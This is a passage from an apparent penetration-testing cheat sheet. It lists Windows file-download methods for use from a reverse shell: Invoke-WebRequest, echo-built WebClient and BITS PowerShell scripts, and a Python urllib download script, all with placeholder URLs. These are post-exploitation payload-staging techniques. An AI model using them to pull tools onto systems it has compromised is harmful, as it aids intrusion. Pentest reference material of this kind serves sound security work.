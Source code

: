 </table>

<span id="anchor-55"></span>Invoke-WebRequest (from reverse Windows
shell)

Requires PowerShell v3.0 or higher. Relies on IE. May not work on
Windows Server.

|                                                                                                                 |
| --------------------------------------------------------------------------------------------------------------- |
| PS C:\\\> Invoke-WebRequest -Uri **\<URI\>** -OutFile **\<dest\_filename\>** -UserAgent **\<useragentstring\>** |

<span id="anchor-56"></span>PowerShell System.Net.WebClient (from
reverse Windows shell)

**NOTE:** Use only valid URLs and File Names or you will hang the shell.
Can be re-used by specifying -url and -file arguments.

<table>
<tbody>
<tr class="odd">
<td>echo param ( [string]$url = "<strong>&lt;URI&gt;</strong>", [string]$file = "<strong>&lt;filename&gt;</strong>" ) &gt; wget.ps1<br />
echo $webclient = New-Object System.Net.WebClient &gt;&gt;wget.ps1<br />
echo $webclient.DownloadFile($url,$file) &gt;&gt;wget.ps1</td>
</tr>
</tbody>
</table>

<span id="anchor-57"></span>PowerShell BITS Transfer (from reverse
Windows shell)

**NOTE:** Use only valid URLs and File Names or you will hang the shell.

**NOTE:** BITS service must be running.

Can be re-used by specifying -url and -file arguments.

<table>
<tbody>
<tr class="odd">
<td><p>echo param ( [string]$url = "<strong>&lt;URI&gt;</strong>", [string]$file = "<strong>&lt;filename&gt;</strong>" ) &gt; bitsget.ps1</p>
<p>echo Import-Module BitsTransfer &gt;&gt; bitsget.ps1<br />
echo Start-BitsTransfer -Source $url -Destination $file &gt;&gt; bitsget.ps1</p></td>
</tr>
</tbody>
</table>

<span id="anchor-58"></span>Python Download Echo Script (Windows)

<table>
<tbody>
<tr class="odd">
<td>echo import urllib &gt; download.py<br />
echo testfile = urllib.URLopener() &gt;&gt; download.py<br />
echo testfile.retrieve('<strong>&lt;url_with_file&gt;</strong>', '<strong>&lt;file_name_to_save&gt;</strong>') &gt;&gt; download.py</td>
</tr>
</tbody>
</table>

